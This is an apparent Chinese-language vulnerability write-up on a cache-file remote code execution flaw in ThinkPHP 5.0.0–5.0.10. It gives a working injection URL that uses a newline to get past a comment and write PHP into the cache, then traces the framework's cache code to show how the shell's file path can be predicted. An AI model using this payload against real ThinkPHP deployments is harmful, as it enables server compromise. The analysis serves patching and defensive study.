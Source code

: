 # Thinkphp缓存rce

### 影响版本

---

> thinkphp5.0.0-5.0.10

# 正文

----

这篇文章是基于thinkphp5.0.0-5.0.10缓存文件命令执行的文章

首先在application/index/controller/index.php里面写入

```
public function index()
{
    Cache::set("namSe",input("get.username"));
    return 'Cache success';
}
```

然后访问：http://localhost:85/public/index.php/Index/index?username=pasec123%0D%0Aphpinfo();//

就可以写入缓存文件shell，从而达到命令执行的目的

![](https://s2.loli.net/2022/08/08/sKB5NAj3qolpzke.png)

![2](https://s2.loli.net/2022/08/08/xfkoZ6rwU1ARcgE.png)

![3](https://s2.loli.net/2022/08/08/3ktHUbwqSoFcmh8.png)

###  开始调试

---

从第一步Cache的set方法跟进，首先进入set方法：

```
public static function set($name, $value, $expire = null)
{
    self::$writeTimes++;
    return self::init()->set($name, $value, $expire);
}
```



$writeTimes默认为0，进入init方法，首先判断self::\handler是否为空，之后进入Config::get方法



```
public static function init(array $options = [])
{
    if (is_null(self::$handler)) {
        // 自动初始化缓存
        if (!empty($options)) {
            $connect = self::connect($options);
        } elseif ('complex' == Config::get('cache.type')) {
            $connect = self::connect(Config::get('cache.default'));
        } else {
            $connect = self::connect(Config::get('cache'));
        }
        self::$handler = $connect;
    }
    return self::$handler;
}
```

![](https://s2.loli.net/2022/08/08/ybzKsJjGHIp4imB.png)

传入的name值为cache.type，从这里可以看出type值为File

![](https://s2.loli.net/2022/08/08/Y8rbfM3ViTjvJ1h.png)

走完get方法后可以得到的有：

name[0] => cache，name[1] => type，cache.type => File

![](https://s2.loli.net/2022/08/08/Cptzd9UTNsSofi4.png)

之后进入connect方法，这里的type获取的就是\$option['type']也就是File



```
public static function connect(array $options = [], $name = false)
{
    $type = !empty($options['type']) ? $options['type'] : 'File';
    if (false === $name) {
        $name = md5(serialize($options));
    }
```



将\$option序列化后md5加密，序列化的\$name值和md5后的分别为：

![](https://s2.loli.net/2022/08/08/JrikEaWeZzcV8qx.png)

![8](https://s2.loli.net/2022/08/08/FpPDbgUYOrsGv85.png)

connect方法返回的内容为：

![](https://s2.loli.net/2022/08/08/t574CmYe8HDoIcU.png)

走到这里也就直接返回init方法中的值

![](https://s2.loli.net/2022/08/08/KxH5YLw2PFidpov.png)

set方法判断\$expire值是否为空，为空的话就将option中的expire值赋给它，option中的值为0，那么\$expire => 0，继续往下走进入getCacheKey方法，这里缓存类设置的键名为name，将name进行md5加密，前两位为目录名，后面位数为文件名，创建php缓存文件

这里比较困扰的是之前\$name的值已经经过了md5加密，所以想当然的认为这里的\$name是加密后的值，但是回到最初index.php中，会发现已经设置了值为name，也就是加密name，name就可以轻松的猜测出路径以及文件名，所以获取缓存键名才能找到shell的路径

![](https://s2.loli.net/2022/08/08/KSp9qokg4JnTbMB.png)

```
protected function getCacheKey($name)
{
    $name = md5($name);
    if ($this->options['cache_subdir']) {
        // 使用子目录
        $name = substr($name, 0, 2) . DS . substr($name, 2);
    }
    if ($this->options['prefix']) {
        $name = $this->options['prefix'] . DS . $name;
    }
    $filename = $this->options['path'] . $name . '.php';
    $dir      = dirname($filename);
    if (!is_dir($dir)) {
        mkdir($dir, 0755, true);
    }
    return $filename;
}
```



之后回到set方法，将value值进行序列化，但是并没有进行其他的过滤操作

![](https://s2.loli.net/2022/08/08/crGA2JuevHXySxf.png)

再看下面的数据压缩，因为option中的data_compress默认为false，因此也就不会进入gzcompress方法

![](https://s2.loli.net/2022/08/08/Qa6UWYKTBVEL5rm.png)

虽然使用注释符//对数据进行注释，但是仍然可以使用换行符进行绕过，之后使用file_put_contents写入shell

![](https://s2.loli.net/2022/08/08/IujhF5rblW4TgBY.png)